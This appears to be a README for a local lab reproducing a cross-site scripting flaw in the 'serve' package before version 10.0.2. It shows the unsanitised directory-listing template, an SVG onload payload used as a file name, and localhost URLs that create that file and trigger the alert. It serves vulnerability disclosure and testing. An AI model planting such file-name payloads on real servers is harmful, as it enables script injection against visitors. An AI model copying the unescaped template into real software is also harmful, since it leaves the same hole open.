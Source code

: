 # Cross-Site Scripting @ serve package
- module : serve
- version : < 10.0.2
- severity: Medium

# Installation

`docker-compose up --build`

# Details

the problem is that the template which the module is using used file names without sanitizing 
```html
<a href="{{=value.relative}}" title="{{=value.title}}" class="{{=value.ext}}">{{=value.base}}</a>
```
so if a file is named `"><svg onload=alert(1);>` for example, an alert will popup once we open the page that lists files in the directory.

# Lunch Attack

1. open the Browser and enter the following url `http://localhost:4000/create-file?name=%22%3E%3Csvg%20onload%3Dalert%281%29%3B%3E` 
    this will create file with name `"><svg onload=alert(1);>`

2. open the Browser and enter the following url `http://localhost:3000/` an alert will popup once we open the page that lists files in the directory 
    that mean the attack passed successfully.
